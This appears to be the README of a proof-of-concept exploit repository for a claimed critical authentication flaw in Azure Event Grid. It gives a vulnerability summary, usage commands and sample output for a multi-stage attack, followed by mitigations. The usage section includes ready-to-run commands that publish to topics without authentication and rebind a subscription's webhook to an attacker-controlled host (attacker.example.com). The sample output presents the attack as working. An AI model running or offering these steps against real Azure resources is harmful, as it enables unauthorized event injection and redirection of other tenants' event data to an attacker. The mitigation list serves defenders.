

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/cveForge/CVE-2026-62841">
    
  </a>
  
  
  
  
</p>

---

## Overview

**CVE-2026-62841** is a **CVSS 10.0 CRITICAL** improper authentication vulnerability in **Azure Event Grid** (CWE-306: Missing Authentication for Critical Function).

An unauthenticated remote attacker can:
1. Publish arbitrary events to private Event Grid topics without a valid SAS key
2. Forge a webhook delivery ACK to rebind a subscription's endpoint to an attacker-controlled URL, achieving full privilege escalation on the subscription resource

The vulnerability was silently patched by Microsoft on **2026-11-19**.

---

## Vulnerability Details

| Field | Value |
|-------|-------|
| CVE ID | CVE-2026-62841 |
| CVSS Score | **10.0 CRITICAL** |
| CWE | CWE-306 — Missing Authentication for Critical Function |
| Affected Product | Azure Event Grid (global service) |
| Attack Vector | Network |
| Attack Complexity | Low |
| Privileges Required | None |
| User Interaction | None |
| Patch Date | 2026-11-19 |

---

## Attack Flow



---

## Usage

```bash
# Install (no external deps — stdlib only)
git clone https://github.com/cveForge/CVE-2026-62841
cd CVE-2026-62841

# Passive probe only
python3 poc.py --endpoint https://YOUR-TOPIC.eventgrid.azure.net --stage probe

# Stage 1 — unauthenticated publish
python3 poc.py --endpoint https://YOUR-TOPIC.eventgrid.azure.net --stage 1 --topic my-topic

# Stage 2 — ACK rebind (requires subscription ID)
python3 poc.py \
  --endpoint https://YOUR-TOPIC.eventgrid.azure.net \
  --sub-id <subscription-id> \
  --attacker https://attacker.example.com/hook \
  --stage 2

# Full chain (probe + stage 1 + stage 2)
python3 poc.py --endpoint https://YOUR-TOPIC.eventgrid.azure.net --sub-id <id> --stage full
```

---

## Expected Output

```
  ██████╗██╗   ██╗███████╗███████╗ ██████╗ ...
  CVE-2026-62841 — Azure Event Grid Improper Authentication — Privilege Escalation
  CVSS 10.0 | CRITICAL | CWE-306 | Azure Event Grid

[*] Target  : https://target.eventgrid.azure.net
[*] Stage   : full

[*] Running passive probe ...
    Server         : Microsoft-HTTPAPI/2.0
    CORS open      : True
    Auth enforced  : False
[+] Topic does NOT enforce authentication — VULNERABLE (CWE-306)

[*] Stage 1 — publishing unauthenticated event ...
[+] VULNERABLE — server accepted unauthenticated publish (HTTP 200)

[*] Stage 2 — forging ACK rebind to https://attacker.example.com/hook ...
[+] VULNERABLE — subscription endpoint rebound to https://attacker.example.com/hook

[*] Done.
```

---

## Mitigation

- Apply Microsoft's patch (automatically deployed to all tenants as of **2026-11-19**)
- Enforce SAS key or Azure AD token authentication on all Event Grid topics
- Restrict inbound webhook ACK validation to known subscription owners only
- Monitor for unauthenticated POST attempts to `*/api/events*` in Azure Monitor logs

---

## References

- [NVD — CVE-2026-62841](https://nvd.nist.gov/vuln/detail/CVE-2026-62841)
- [Microsoft Security Response Center](https://msrc.microsoft.com)
- [Azure Event Grid Authentication Documentation](https://learn.microsoft.com/en-us/azure/event-grid/security-authentication)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<p align="center">
  
</p>

<p align="center">
  <sub>cveForge — Security Research &amp; Proof of Concept Repository</sub>
</p>
